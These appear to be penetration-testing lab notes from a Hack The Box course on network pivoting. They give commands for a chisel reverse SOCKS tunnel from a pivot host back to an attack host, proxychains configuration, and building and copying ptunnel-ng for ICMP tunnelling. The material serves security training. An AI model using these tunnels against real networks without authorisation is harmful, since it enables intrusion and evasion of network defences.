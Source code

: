 ```shell-session
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
```

have to add the port from here to proxychains.conf

## Chisel Reverse Pivot

#### Starting the Chisel Server on our Attack Host

```shell-session
sudo ./chisel server --reverse -v -p 1234 --socks5
```

#### ON client

```shell
./chisel client -v 10.10.14.17:1234 R:socks
```

#### proxychains.conf

```shell
[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```


# ICMP Tunneling with SOCKS

https://github.com/utoni/ptunnel-ng

```shell
git clone https://github.com/utoni/ptunnel-ng.git
```
#### Building Ptunnel-ng with Autogen.sh
```shell
sudo ./autogen.sh 
```

#### Alternative approach of building a static binary

```shell-session
alenn@htb[/htb]$ sudo apt install automake autoconf -y
alenn@htb[/htb]$ cd ptunnel-ng/
alenn@htb[/htb]$ sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
alenn@htb[/htb]$ ./autogen.sh
```
#### Transferring Ptunnel-ng to the Pivot Host

```shell
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```
